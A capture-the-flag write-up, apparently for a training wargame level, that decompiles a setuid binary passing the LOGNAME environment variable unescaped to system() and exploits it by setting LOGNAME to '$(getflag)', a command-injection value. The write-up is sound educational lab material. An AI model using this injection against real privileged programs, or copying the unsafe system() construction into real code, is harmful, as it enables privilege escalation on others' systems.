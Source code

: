 ## STEPS

### 1. Initial Investigation:
In the home directory, I found en executable named level07.
I decompiled the binary using https://dogbolt.org/, which revealed the following C code:
```
int main(int argc,char **argv,char **envp)
{
	char *pcVar1;
	int iVar2;
	char *buffer;
	gid_t gid;
	uid_t uid;
	char *local_1c;
	__gid_t local_18;
	__uid_t local_14;`
	
	local_18 = getegid();
	local_14 = geteuid();
	setresgid(local_18,local_18,local_18);
	setresuid(local_14,local_14,local_14);
	local_1c = (char *)0x0;
	pcVar1 = getenv("LOGNAME");
	asprintf(&local_1c,"/bin/echo %s ",pcVar1);
	iVar2 = system(local_1c);
	return iVar2;

}
```

This code sets the effective group ID (EGID) and effective user ID (EUID) to the real group and user ID values, respectively. It then retrieves the value of the LOGNAME environment variable and uses it to construct a command to execute /bin/echo with the value of LOGNAME as an argument.

### 2.Exploiting the Binary:
Understanding that the binary executes /bin/echo with the value of LOGNAME, I decided to exploit it by manipulating the LOGNAME environment variable. I set **LOGNAME** to **$(getflag)** using the following command:

```
export LOGNAME='$(getflag)'
```
This sets LOGNAME to the result of executing the getflag command.
With the LOGNAME environment variable manipulated, I executed the level07 binary. As expected, it executed the command specified in the LOGNAME variable ($(getflag)) and printed the flag.

![alt text](level07.png)